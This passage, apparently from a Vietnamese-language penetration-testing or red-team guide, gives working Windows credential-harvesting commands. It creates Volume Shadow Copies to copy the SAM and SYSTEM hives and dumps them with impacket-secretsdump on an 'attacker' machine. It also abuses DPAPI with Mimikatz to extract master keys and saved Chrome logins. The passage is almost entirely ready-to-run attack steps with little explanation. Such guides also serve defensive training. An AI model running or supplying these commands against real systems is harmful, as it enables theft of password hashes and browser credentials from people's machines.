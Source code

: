 #### Sử dụng Volume Shadow Copy để lấy file

```powershell
## Tạo shadow copy
wmic shadowcopy call create Volume='C:\'

## Lấy đường dẫn Shadow Copy
vssadmin list shadows

## Copy các file từ Shadow Copy (thay thế path phù hợp)
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\temp\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\SYSTEM
```

#### Xử lý các file SAM và SYSTEM với Impacket

```bash
## Trên máy attacker (Linux)
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

#### Sử dụng PowerShell để tìm file SAM và SYSTEM

```powershell
## Tìm file SAM và SYSTEM
Get-ChildItem -Path C:\ -Recurse -Force -ErrorAction SilentlyContinue -Include "SAM" | Where-Object { $_.FullName -like "*\System32\config\SAM" }
Get-ChildItem -Path C:\ -Recurse -Force -ErrorAction SilentlyContinue -Include "SYSTEM" | Where-Object { $_.FullName -like "*\System32\config\SYSTEM" }
```

### 4.4.3. DPAPI Abuse

DPAPI (Data Protection API) được Windows sử dụng để bảo vệ dữ liệu nhạy cảm như mật khẩu trình duyệt, khóa WiFi, và thông tin đăng nhập của các ứng dụng.

#### Thu thập Master Keys

```powershell
## Tìm các DPAPI Master Keys
dir "C:\Users\*\AppData\Roaming\Microsoft\Protect\*" -Force

## Sử dụng Mimikatz để trích xuất master key
dpapi::masterkey /in:"C:\Users\username\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\file.masterkey" /sid:S-1-5-21-...
```

#### Thu thập Credentials từ Trình duyệt

```powershell
## Thu thập credentials từ Chrome với Mimikatz
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data"

## Chuyển các databases của trình duyệt về máy attacker để phân tích
copy "%localappdata%\Google\Chrome\User Data\Default\Login Data" C:\temp\chrome_logins
```
